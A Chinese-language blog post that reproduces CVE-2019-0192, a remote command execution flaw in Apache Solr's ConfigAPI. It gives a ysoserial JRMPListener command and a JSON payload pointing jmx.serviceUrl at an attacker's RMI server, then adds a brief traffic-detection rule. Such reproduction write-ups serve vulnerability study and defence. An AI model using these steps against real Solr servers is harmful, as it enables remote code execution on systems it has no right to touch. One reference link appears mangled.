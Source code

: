 ```yaml
---
layout: post
title:  "Apache Solr 远程命令执行漏洞(CVE-2019-0192)" 
date:   2019-08-05 13:47:46
categories: Development
author: co0ontty
categories: 安全开发 漏洞复现 ALL
tags: 安全开发 漏洞复现 ALL
describe: Apache Solr 远程命令执行漏洞(CVE-2019-0192)
cover: '/assets/img/posts/apachesolr.png'
---
```


## Apache Solr 远程命令执行漏洞(CVE-2019-0192)

### 漏洞概述

 Apache Solr 中的 ConfigAPI 允许设置一个 jmx.serviceUrl，它将创建一个新的 JMXConnectorServerFactory，并通过“绑定”操作触发对目标 RMI/LDAP 服务器的调用。恶意的 RMI 服务器可以响应任意的对象，这些对象将在 Solr 端使用 java 的 ObjectInputStream 反序列化，这被认为是不安全的。这种类型的漏洞可以利用 ysoserial 工具。根据目标类路径，攻击者可以使用其中一个“gadget chain”来触发 Solr 端上的远程代码执行。

### 漏洞环境搭建

参考：[环境安装教程](https://blog.csdn.net/yalecaltech/article/details/88829590)

### 漏洞复现

1、环境成功运行之后，切换到 ysoserial.jar 的目录下，运行：

```cmd
java -cp ysoserial.jar ysoserial.exploit.JRMPListener 1234 Jdk7u21 calc.exe
# 其中 calc.exe 为需要执行的命令
```

使用 ysoserial.jar 在本地 1234 端口创建一个 rmi server，当反序列化数据 发送到 Server 中，然后 Server 中进行反序列化操作，并开启指定端口，然后在通过 JRMPClient 去发送攻击 payload 

2、使用 burpsuite 抓包 ip/solr/techproducts/config 

3、添加`content-type:application/json`和`content-length`

4、然后在 http_client_body 中插入 payload 

```html
{“set-property” : {“jmx.serviceUrl” : “service:jmx:rmi:///jndi/rmi://ysoserical's ip:ysoserical's port/obj”}}
```

### 流量分析

检测请求中是否包含 setProperty 方法，如果存在 setProperty 方法，且存在对 rmi 服务端的请求，则可以判定存在攻击行为

### 参考链接

[参考链接 from github](https://github.com/mpgn/CVE-2019-0192)

[参考链接 from 先知社区](https://xz.gmail.com/t/4422)
